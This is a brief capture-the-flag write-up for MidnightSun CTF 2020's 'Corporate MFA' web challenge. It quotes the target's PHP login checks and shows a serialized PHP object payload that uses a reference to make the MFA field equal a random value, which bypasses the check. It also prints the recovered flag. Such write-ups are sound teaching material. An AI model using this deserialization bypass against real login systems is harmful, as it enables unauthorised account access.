

Corporate MFA: Web - MidnightSun CTF 2020
===
Played with [npi](https://twitter.com/n0pwnintended)!!

## The challenge
Only a login page. To print flag we need to guess a password (we only know its hash) and a random int.
```php
    private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```

## Exploit
Okay, after some googling (simply copy and paste hash on google), we found [password](https://www.php.net/manual/en/function.password-verify.php): 


Need to guess random number.

### Unserialize
We can controls the userdata vars trought unserialize function.
The service computes random int and puts it in _correctValue
```php
$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
```
Good!Try to Put a reference to this field in payload
```
O:8:"stdClass":4:{s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:13:"_correctValue";i:0;s:3:"mfa";R:4;}
```
It works: ```midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}```
